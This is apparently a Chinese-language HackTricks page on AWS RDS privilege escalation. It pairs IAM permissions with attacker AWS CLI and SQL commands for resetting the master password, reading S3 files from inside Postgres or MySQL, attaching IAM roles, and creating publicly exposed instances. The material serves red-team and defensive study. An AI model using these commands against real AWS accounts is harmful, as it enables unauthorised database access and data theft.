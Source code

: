 # AWS - RDS提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## RDS - 关系型数据库服务

有关RDS的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有此权限的攻击者可以**修改主用户的密码**以及数据库内的登录信息：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，拥有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql（Aurora）

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**，找到一个名为**`rdsadmin`**的数据库，您就知道自己在**AWS postgresql数据库**内。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他AWS服务。您可以通过查看已安装的扩展来进行检查：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 这样的内容，你可以假设这个数据库对 S3 有某种访问权限（还有其他扩展，比如 **`aws_ml`** 和 **`aws_lambda`**）。

另外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在字段 **`AssociatedRoles`** 中看到是否有 IAM 角色与该集群关联。如果有的话，你可以假设该数据库已经准备好访问其他 AWS 服务。根据角色的 **名称**（或者如果你能获取到角色的 **权限**），你可以 **猜测** 数据库具有哪些额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整的路径。你可以使用以下命令读取：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果您拥有**原始的AWS凭证**，您也可以使用它们来访问S3数据：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **无需更改任何参数组变量**即可访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果运行查询**`SELECT User, Host FROM mysql.user;`**并且存在名为**`rdsadmin`**的用户，则可以假定您在**AWS RDS mysql数据库**中。
{% endhint %}

在mysql中运行**`show variables;`**，如果变量如**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**等具有值，则可以假定数据库已准备好访问S3数据。

此外，如果您有权限运行**`aws rds describe-db-clusters`**，您可以检查集群是否有任何**关联角色**，这通常意味着可以访问AWS服务。

现在，要**读取存储桶中的文件**，您需要知道完整路径。您可以使用以下命令读取：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 权限的攻击者可以**将指定角色添加到现有的 RDS 实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问RDS实例中的敏感数据或未经授权地修改数据。\
请注意，一些数据库需要额外的配置，比如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者就可以在已存在并附有IAM角色的**集群内创建新实例**。他将无法更改主用户密码，但可能会将新数据库实例暴露在互联网上：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

具有`rds:CreateDBInstance`和`iam:PassRole`权限的攻击者可以**创建一个附加指定角色的新RDS实例**。攻击者随后可能**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
要附加的角色/实例配置文件的一些要求（来自[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html))：

* 该配置文件必须存在于您的账户中。
* 该配置文件必须具有Amazon EC2有权限承担的IAM角色。
* 实例配置文件名称和关联的IAM角色名称必须以前缀`AWSRDSCustom`开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`，`iam:PassRole`

拥有`rds:AddRoleToDBInstance`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
此操作要求DB实例不在集群中
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问 RDS 实例中的敏感数据或未经授权修改数据。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
